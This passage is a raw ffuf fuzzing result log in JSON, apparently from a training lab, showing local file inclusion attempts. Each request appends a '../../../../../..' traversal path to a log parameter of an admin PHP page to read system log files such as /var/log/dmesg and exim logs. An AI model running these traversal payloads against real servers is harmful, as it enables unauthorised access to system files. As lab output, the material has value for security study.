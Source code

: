 charset=UTF-8","redirectlocation":"","scraper":{},"duration":44403361,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/htmp","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5ad","FUZZ":"/var/log/chttp.log"},"position":173,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44361761,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/chttp.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5ae","FUZZ":"/var/log/cups/error.log"},"position":174,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44451131,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/cups/error.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5af","FUZZ":"/var/log/daemon.log"},"position":175,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45543847,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/daemon.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5b0","FUZZ":"/var/log/debug"},"position":176,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44728223,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/debug","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5b1","FUZZ":"/var/log/dmesg"},"position":177,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44339101,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/dmesg","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5b4","FUZZ":"/var/log/exim/mainlog"},"position":180,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43779438,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/exim/mainlog","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5b2","FUZZ":"/var/log/dpkg.log"},"position":178,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44237610,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/dpkg.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5b3","FUZZ":"/var/log/exim_mainlog"},"position":179,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44070339,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/exim_mainlog","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5b5","FUZZ":"/var/log/exim_paniclog"},"position":181,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44045359,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/exim_paniclog","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5b7","FUZZ":"/var/log/exim_rejectlog"},"position":183,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43962209,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/exim_rejectlog","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5ba","FUZZ":"/var/log/ftplog"},"position":186,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43284815,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/ftplog","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5b6","FUZZ":"/var/log/exim.paniclog"},"position":182,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44609812,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/exim.paniclog","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5b8","FUZZ":"/var/log/exim/rejectlog"},"position":184,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44150049,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/exim/rejectlog","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5b9","FUZZ":"/var/log/faillog"},"position":185,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44424191,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/faillog","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5bb","FUZZ":"/var/log/ftp-proxy"},"position":187,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43768718,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/ftp-proxy","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5bd","FUZZ":"/var/log/httpd/access_log"},"position":189,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html;